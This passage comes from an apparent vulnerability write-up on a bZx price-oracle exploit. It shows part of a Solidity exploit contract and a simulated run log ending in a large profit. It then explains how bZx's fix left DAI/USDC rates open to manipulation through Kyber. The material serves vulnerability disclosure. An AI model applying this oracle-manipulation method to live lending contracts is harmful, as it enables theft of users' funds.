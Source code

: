        function cleanup() external {
            require(MATCHING_MARKET.cancel(id));
            DAI.giveAllToUniswap();
            WETH.withdrawAll();
        }
        
        function checkProfits() external {
            printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
        }
        
        function borrowInterest(uint amount) internal {
            WETH.deposit.value(amount)();
        }
        
        function borrowCollateral(uint amount) internal {
            DAI.getFromUniswap(amount);
        }
    }
    
    /*
    ### running script "bzx-oasis-exploit" at block 8455720
    #### executing step: exploit
    ##### calling: checkRates()
    checking rates tokens=1.000000000000000000 rate=0.005950387240736517 slippage=0.005771875623514421
    ##### calling: makeOrder()
    made order id=414191
    ##### calling: checkRates()
    checking rates tokens=1.000000000000000000 rate=9.975000000000000000 slippage=9.675750000000000000
    ##### calling: borrow()
    collateral_required=398.831304885561111810, interest_required=203.458599916962956188
    borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
    ##### calling: cleanup()
    ##### calling: checkProfits()
    profits=2446.376892708285686012
    #### finished executing step: exploit
    */

#### Solution

The bZx team blocked this attack by modifying the oracle logic such that if
the collateral and loan token were both either DAI or WETH, then the exchange
rate would be loaded directly from Maker's oracles.

However, this solution was incomplete because of the way Kyber resolves the
best rate. If you'll recall, Kyber determines the best rate for A/B by
determining the best rate for A/ETH and ETH/B, then calculating the amount of
B that could be bought with the ETH received by trading A.

This meant that if we were to attempt to borrow a non-ETH token such as USDC
using DAI as collateral, Kyber would first determine the best exchange rate
for DAI/ETH, then the best rate for ETH/USDC, and finally the best rate for
DAI/USDC. Because we can artificially increase the exchange rate for DAI/ETH,
we can still manipulate the exchange rate for DAI/USDC even though we don't
control a permissioned USDC reserve.
